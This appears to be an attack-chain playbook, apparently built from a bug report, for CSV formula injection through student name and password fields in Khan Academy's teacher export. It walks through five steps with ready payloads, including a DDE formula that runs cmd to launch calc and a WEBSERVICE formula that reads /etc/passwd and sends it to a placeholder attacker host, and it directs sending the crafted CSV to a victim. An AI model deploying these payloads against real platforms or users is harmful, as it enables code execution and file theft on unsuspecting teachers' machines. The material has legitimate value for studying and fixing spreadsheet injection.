

# CSV Injection via Student Name and Password Leading to Client-Side RCE and File Exfiltration

The vulnerability in Khan Academy's teacher CSV export and add student functions allows attackers to inject malicious formulas into exported student data. By crafting payloads in student names or passwords, attackers bypass basic escaping and achieve client-side execution when teachers open the CSV in tools like LibreOffice or Excel. This leads to remote code execution (RCE) on the victim's machine, such as launching applications, and local file reading with exfiltration, demonstrating high-impact client-side compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/LibreOffice]]
- [[tools/Microsoft-Excel]]

### Target Environment

- Web-based platform (Khan Academy teacher interface)
- Victim using spreadsheet software (Excel or LibreOffice)
- No specific ports; client-side execution

### Initial Access Requirements

- Access to Khan Academy as a teacher or ability to create student accounts
- No network position required beyond web access
- Prior knowledge of CSV export functionality

## Detailed Attack Procedures

### Step 1: Discover CSV Injection in Student Data Export
procedure: [[procedures/CSV-Injection-in-Student-Data-Export-via-Name-Field]]

**Objective**: Identify and exploit injection point in the student name field during CSV export to inject a basic formula payload.

**Instructions**: Log in to the Khan Academy teacher interface. Create or edit a student with a name containing the payload `',"=2+11',"` to bypass double-quote filtering using whitespace and single quotes. Trigger the students data export function to generate the CSV.

**Expected Output**: CSV file with injected formula that evaluates to 13 when opened in LibreOffice.

**Success Indicators**:
- Payload appears unescaped in the CSV
- Formula executes on spreadsheet open

### Step 2: Test Limitations and Bypassing Escaping
procedure: [[procedures/Bypassing-Double-Quote-Escaping-in-CSV-Export]]

**Objective**: Assess escaping behavior and confirm payloads without double quotes can execute, limiting but not preventing attacks.

**Instructions**: Experiment with various payloads in the student name field, noting that double quotes are escaped to "". Use payloads avoiding double quotes, such as simple arithmetic, and export the CSV to verify execution in LibreOffice.

**Expected Output**: Confirmation that non-quoted payloads execute, while quoted ones are altered but potentially still viable.

**Success Indicators**:
- Escaping mechanism identified
- Basic payload success without complex quoting

### Step 3: Exploit Add Student Function for Unfiltered Injection
procedure: [[procedures/CSV-Injection-in-Add-Student-Function-via-Password-Field]]

**Objective**: Inject malicious payload into the unfiltered password field via the add student interface and download the CSV.

**Instructions**: In the teacher interface, add a new student with a password containing a malicious formula, such as `;=2+5+cmd|' /C calc'!A0`. Save and then download the user data CSV.

**Expected Output**: CSV file containing the raw payload in the password column.

**Success Indicators**:
- Student added successfully
- Payload present in downloaded CSV without filtering

### Step 4: Achieve Client-Side RCE
procedure: [[procedures/Exploiting-CSV-Injection-for-Client-Side-RCE-in-Excel]]

**Objective**: Execute system commands on the victim's machine by opening the injected CSV in Excel.

**Instructions**: Send the malicious CSV to a victim (e.g., teacher). When opened in Microsoft Excel, the payload `;=2+5+cmd|' /C calc'!A0` triggers execution of [[commands/cmd-execute-calc]].

**Expected Output**: Calculator (calc.exe) launches on the Windows machine.

**Success Indicators**:
- Command executes automatically
- Visible application launch

### Step 5: Read and Exfiltrate Local Files
procedure: [[procedures/Exploiting-CSV-Injection-for-Local-File-Reading-and-Exfiltration]]

**Objective**: Read sensitive local files like /etc/passwd and exfiltrate contents via a webservice to an attacker-controlled endpoint.

**Instructions**: Use a payload like `"=WEBSERVICE(CONCATENATE("https://HOST:PORT" , ('file:///etc/passwd'#$passwd.A1)))"` in the password field. Export and have the victim open in Excel, triggering file read and HTTP request to attacker host.

**Expected Output**: File contents sent to attacker's server via WEBSERVICE formula.

**Success Indicators**:
- Network request to attacker endpoint
- File contents received remotely

## Attack Chain Summary

### Key Achievements

1. Bypassed CSV escaping in name field for basic injection
2. Exploited unfiltered password field for full formula injection
3. Achieved client-side RCE launching system commands
4. Demonstrated local file reading and exfiltration
5. Highlighted risks in spreadsheet software handling

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[Data from Local System]] Data from Local System

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
